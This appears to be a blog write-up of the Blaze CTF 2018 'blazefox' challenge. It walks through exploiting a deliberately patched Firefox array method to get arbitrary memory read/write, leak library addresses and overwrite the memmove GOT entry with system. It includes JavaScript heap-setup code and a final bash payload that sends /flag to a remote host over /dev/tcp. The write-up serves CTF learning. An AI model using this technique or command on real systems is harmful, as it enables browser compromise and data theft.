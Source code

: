```yaml
---
layout: post
title: blazefox - Blaze CTF 2018
date: '2018-04-27 19:00:00'
---
```


> No one gave us a firefox 0day last year, so we'll make it a little easier for you this time.
> 
> nc blazefox.420blaze.in 1337
> 
> [blaze patch and instructions for rolling](https://github.com/vakzz/ctfs/raw/master/Blaze2018/blazefox/blaze_firefox_small.tar.gz)
> 
> also smoke this [fully built binary](https://s3.us-east-2.amazonaws.com/blazefox/blazefox/blaze_firefox_dist_large.tar.gz) (600 MB)
> 
> Author : itsZN


*420 points, 9 Solves, pwn*

We are given a nigthly version of firefox that has been patched to add a new function to arrays called `blaze`, which modifies the capacity of the array to be 420 without acutally updating the underlying storage. This allows us to read and write to arbitrary data that is located just after the array.

I relied heavily on  [Share with care: Exploiting a Firefox UAF with shared array buffers](https://phoenhex.re/2017-06-21/firefox-structuredclone-refleak#turning-a-use-after-free-into-a-readwrite-primitive) for this challenge.

The general idea was to allocate an `Array` followed by two small `ArrayBuffer`s (so that they have their data inline) and use the `blaze` method on the inital array to access and modify the length of the first `ArrayBuffer`. By placing a magic value in the second `ArrayBuffer`, we can locate the index of this, and then work backwards to change the header allowing us to read/write to anywhere.

```javascript
arr = [0x11223344];

ab = new ArrayBuffer(32);
overwrite_len = new Uint32Array(ab);
overwrite_len[0] = 0x77777777;

victim_ab = new ArrayBuffer(32);
victim = new Uint32Array(victim_ab);
victim[0] = 0x88888888;
```

Looking for `0x11223344` in gdb shows finds two locations, and examining the second one shows us what we are after: 

![gdb](/assets/blaze18/firefox_gdb.jpg)

We can see the size `0xfff8800000000008` that we want to modify, which we can do by calling `arr.blaze()` then setting `arr[7] = 0x10000;`.  This allows us to iterate through the first array buffer and find the contents of the second array buffer.

![gdb](/assets/blaze18/firefox_gdb2.jpg)

The memory location of the second array buffer is at `0x00007f89218d60c0` but shifted to the right by one, so shifting` 0x00003fc490c6b070<<1 == 0x7f89218d60e0` which is where we can see `0x88888888`.

We can now modify this value to any address we want (right shifted) using the first array buffer, then use the second array buffer to read or write to the new arbitary address.

The next part of the exploit was taken straight from <https://github.com/phoenhex/files/blob/master/exploits/share-with-care/exploit.js> with just changing a few offsets. The basic idea was to leak a native function `Date.now` and calculate the base address of libxul.so, then leak a GOT entry and calculate the base address of libc and then have `system`. We then overwrite the `memmove` got with system and trigger a copy with our payload to copy the flag `bash -ic 'cat /flag > /dev/tcp/my.host/12345' &`

`flag{fire_just_makes_the_blaze_better}`
